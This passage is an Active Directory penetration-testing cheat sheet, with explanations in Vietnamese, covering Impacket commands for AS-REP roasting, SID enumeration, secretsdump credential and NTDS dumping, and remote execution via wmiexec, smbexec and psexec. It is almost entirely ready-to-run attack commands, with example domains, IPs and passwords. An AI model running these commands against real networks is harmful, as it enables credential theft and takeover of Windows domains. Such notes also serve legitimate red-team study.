 > impacket-GetNPUsers <DOMAIN>/ -dc-ip <DC_IP> \ -usersfile <UserList> \ -format hashcat \ -outputfile hashes.txt \#Sau đó có thể crack hashes.txt
> ```

### Security Identifier (SID) Enumeration
> SID (Security Identifier) là một chuỗi định danh duy nhất mà Windows (và Active Directory) gán cho mỗi thực thể bảo mật - như user, group, máy tính, hoặc domain. Nó không thay đổi kể cả khi bạn đổi username. Mỗi SID có dạng như: S-1-5-21-3623811015-3361044348-30300820-1013
```Bash
impacket-lookupsid <DOMAIN>/<USER>:<PASSWORD>@<DC_IP> <TARGET_IP> [-hashes <LMHASH>:<NTHASH>]
```
> [!important]
> 
> ```Bash
> impacket-lookupsid MEGACORP/administrator:Passw0rd123@10.10.10.1 10.10.10.1
> ```
---

## Hash / Dumping
### Dump hashes
> Dump SAM, SYSTEM, SECURITY từ máy local/remote
```Bash
impacket-secretsdump <DOMAIN>/<USER>:<PASS>@<IP>
```
> [!important]
> 
> ```Bash
> impacket-secretsdump test.local/admin:'Passw0rd!'@10.10.10.1
> ```
> 
> ```Bash
> impacket-secretsdump LOCAL -sam sam.save -system system.save -security security.save
> ```
> 
> ```Bash
> impacket-secretsdump -ntds ntds.dit -system system LOCAL
> ```
---

## Remote command execution
### **WMI** (Windows Management Instrumentation)
> [!important] Thực thi lệnh từ xa qua giao thức WMI mà không cần mở một phiên shell tương tác giống như WinRM hay PsExec
```Bash
impacket-wmiexec <DOMAIN>/<USER>:<PASS>@<IP>
```
```Bash
impacket-smbexec <DOMAIN>/<USER>:<PASS>@<IP>
```
```Bash
impacket-psexec <DOMAIN>/<USER>:<PASS>@<IP>
```
